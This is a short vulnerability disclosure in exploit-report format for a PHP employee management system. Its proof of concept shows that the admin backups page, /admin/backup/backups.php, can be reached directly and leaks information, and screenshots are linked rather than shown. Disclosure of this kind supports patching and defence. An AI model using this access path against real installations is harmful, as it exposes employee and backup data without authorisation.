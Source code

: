 ### Exploit Title: Best employee management system - information leakage
### Date: 2025-02/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17689/best-employee-management-system-php.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./admin/backup/backups.php information leakage

### information leakage POC #1

```
http://127.0.0.1:8001/admin/backup/backups.php

```

### information leakage
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739270380263.jpg "Best employee management system")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739270373182.jpg "Best employee management system")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739270366978.jpg "Best employee management system")
